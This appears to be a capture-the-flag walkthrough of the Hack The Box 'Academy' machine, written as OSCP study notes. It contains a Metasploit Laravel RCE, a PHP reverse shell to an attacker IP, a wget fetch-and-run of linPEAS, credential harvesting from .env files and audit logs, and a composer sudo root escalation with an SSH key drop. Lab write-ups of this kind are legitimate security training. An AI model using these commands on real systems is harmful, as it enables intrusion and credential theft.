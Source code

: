 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
---

## 🌐 Network Scanning

```bash
nmap -p- -T4 -A 10.10.10.215
```

Edit `/etc/hosts`:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb
```

---

## 📁 Enumeration

### [HTTP](HTTP.md) (Port 80)

```bash
gobuster dir --url http://academy.htb/ -w /usr/share/wordlists/dirb/common.txt
```

- Discovered: `admin.php`
- Registered an account on the site
- Intercepted POST with Burp Suite and modified:

```http
POST /register
...
roleid=1
```

Access:

```http
http://academy.htb/admin.php
```

From the admin panel, discovered subdomain:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb dev-staging-01.academy.htb
```

---

## 💥 Exploitation

### Laravel RCE (CVE-2018–15133)

Check Laravel version hint from `.env` at `dev-staging-01.academy.htb`:

```bash
# Manually visit:
http://dev-staging-01.academy.htb
```

Run Metasploit:

```bash
msfconsole
search laravel

use exploit/unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST <your-tun0-IP>
run
```

Spawn TTY shell:

```bash
/usr/bin/php -r '$sock=fsockopen("10.10.16.9",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧑‍💻 User: `cry0l1t3`

### Find .env file & Password

```bash
find / -type f -name .env 2>/dev/null
cat /var/www/html/academy/.env
# or
cat /var/www/html/htb-academy-dev-01/.env
```

Discovered credentials:

```plaintext
mySup3rP4s5w0rd!!
```

Login as `cry0l1t3` via SSH:

```bash
ssh cry0l1t3@10.10.10.215
id
cat user.txt
```

---

## 🧑 User: `mrb3n`

### Enumerate with linPEAS

On Kali:

```bash
cd ~/Downloads
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Find credentials manually:

```bash
cd /var/log/audit
cat * | grep 'comm="su"'
# Extract the HEX from `data=` and decode to ASCII
```

Switch to user:

```bash
su mrb3n
# Password: mrb3n_Ac@d3my!
```

---

## 👑 Privilege Escalation to Root

### Sudo Check

```bash
sudo -l
```

Output:

```
(mrb3n) NOPASSWD: /usr/bin/composer
```

### GTFOBins: Composer to Root

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Alternative (SSH Key Drop):

```bash
TF=$(mktemp -d)
echo '{"scripts":{"ssh":"echo 'ssh-ed25519 AAAA...yourkey... user@host' >> /root/.ssh/authorized_keys"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script ssh

# Then from Kali:
ssh -i ~/.ssh/id_rsa root@10.10.10.215
```

### Read Root Flag

```bash
cd /root
cat root.txt
```

---

## ✅ Summary

| Stage            | User         | Method                                             |
|------------------|--------------|----------------------------------------------------|
| Foothold         | `www-data`   | Laravel RCE + admin role bypass                    |
| User             | `cry0l1t3`   | `.env` file password reuse                         |
| Lateral Movement | `mrb3n`      | Audit log credential leak (linPEAS or manual grep) |
| Root             | `root`       | Composer abuse (GTFOBins)                          |
